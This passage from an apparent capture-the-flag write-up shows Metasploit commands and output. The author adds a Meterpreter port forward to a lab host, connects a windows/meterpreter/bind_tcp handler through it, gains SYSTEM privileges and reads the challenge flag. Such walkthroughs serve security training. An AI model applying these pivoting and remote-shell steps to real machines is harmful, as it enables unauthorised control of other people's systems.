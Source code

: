 To connect to the new meterpreter session we enter into meterpreter session 1 (jasper.west) and add a TCP portfwd from our local machine to port 4445 on the HOTDESK system.

```
meterpreter > portfwd add -l 4445 -p 4445 -r localhost
[*] Local TCP relay created: 0.0.0.0:4445 <-> localhost:4445
```

We then background session 1 and setup an `exploit/multi/handler` with the `windows/meterpreter/bind_tcp` payload. We set `LPORT` to `4445` and set `RHOST` to `127.0.0.1`. We then run `exploit` to connect to the existing bind tcp port on the workstation. We run `getuid` to confirm that we have elevated privileges to SYSTEM.

```
msf exploit(handler) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp

msf exploit(handler) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(handler) > set LPORT 4445
LPORT => 4445
msf exploit(handler) > exploit

[*] Starting the payload handler...
[*] Started bind handler
[*] Sending stage (885806 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:58486 -> 127.0.0.1:4445) at 2015-11-02 06:22:59 +1100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now that we are SYSTEM we read the flag for this challenge.

```
meterpreter > pwd
C:\Windows\system32
meterpreter > cat flag.txt
FLAG{942813733D504C91FDC59262DC9D1595}
```
